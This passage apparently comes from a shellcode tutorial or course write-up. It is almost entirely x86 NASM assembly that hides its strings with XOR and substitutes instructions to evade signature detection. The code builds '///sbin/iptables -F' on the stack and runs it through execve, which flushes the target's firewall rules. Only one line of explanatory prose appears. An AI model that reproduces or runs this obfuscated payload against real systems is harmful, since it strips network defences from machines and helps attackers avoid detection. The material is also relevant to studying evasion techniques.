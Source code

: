 _start:

    ; clear EBX, EAX, and EDX
    xor ebx, ebx
    mul ebx
    
    ; instead of pushing EAX, push EDX
    push edx

    ; push word 0x462d
    ; instead of pushing the WORD 0x462d, use two steps
    mov di, 0x462d
    push di

    ; use edi instead of esi
    mov edi,esp
    
    ; use EBX or EDX instead of EAX
    push edx

    ; XOR key ('rbct')
    mov esi, 0x72626374

    ; NULL DWORD acting as the string terminator for
    ;   the path of the executable
    push edx

    push 0x73656c62
    
    push 0x1316131d
    xor [esp], esi

    push 0x2f6e6962

    push 0x014d4c5b
    xor [esp], esi

    ; save the pointer to the string into EBX
    push esp
    pop ebx

    ; instead of 'push eax' use 'push edx', as they are both set to 0x0 
    push edx

    push edi
    push ebx

    mov al, 0xa
    inc eax

    ; use the PUSH-POP technique instead of the MOV instruction
    push esp
    pop ecx

    ; call execve
    int 0x80
</code></pre><p>Now let me describe the changes. First, I've changed the following instructions...</p><pre><code class="language-nasm">global _start
